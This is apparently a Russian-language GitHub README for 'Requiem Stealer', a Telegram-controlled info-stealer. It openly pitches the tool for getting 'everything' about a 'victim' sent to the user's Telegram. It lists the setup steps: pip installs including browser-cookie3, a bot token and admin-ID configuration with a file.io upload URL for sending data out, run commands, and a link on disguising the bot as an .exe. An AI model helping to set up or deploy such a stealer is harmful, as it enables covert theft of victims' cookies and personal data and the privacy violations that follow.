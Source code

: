 ### [Download](https://minhaskamal.github.io/DownGit/#/home?url=https://github.com/Suggika/Requiem-Stealer)
---------------------------------
![](https://github.com/Suggika/Requiem-Stealer/blob/main/For%20GIt/Screenshot%202024-06-16%20004002.png)
### Если ты хочешь отыграться на своей жертве по полной и узнать про неё ВСЁ прямо к себе в ЛС в Telegram, то Requiem тебе поможет это сделать
---------------------------------
### Установка: 
### 1. Библиотеки Python
```
pip install Pillow
pip install browser-cookie3
pip install psutil
pip install pywin32
pip install pyTelegramBotAPI
```
---------------------------------
### 2. Редактирование файлов
### В файле bot.py
```
ADMIN_ID = "ID" # Ваш Telegram ID куда бот будет слать сообщения. Получить его => @chatIDrobot
FILE_IO_API_URL = "https://file.io" 
bot = telebot.TeleBot("TOKEN") # Токен бота который будет слать сообщения. Создать бота => @BotFather
```
---------------------------------
### Чтобы запустить бота:
### 1. Откройте Командую строку Windows(Win+R => cmd)
### 2. Скопируйте каждую строчку поочередно в cmd
```
cd Ваш путь к файлу bot.py. Найти и скопировать его можно в проводнике
python bot.py
```
---------------------------------
### Маскировка бота под exe файл
  ### • Читаем [статью](https://habr.com/ru/companies/vdsina/articles/557316/)
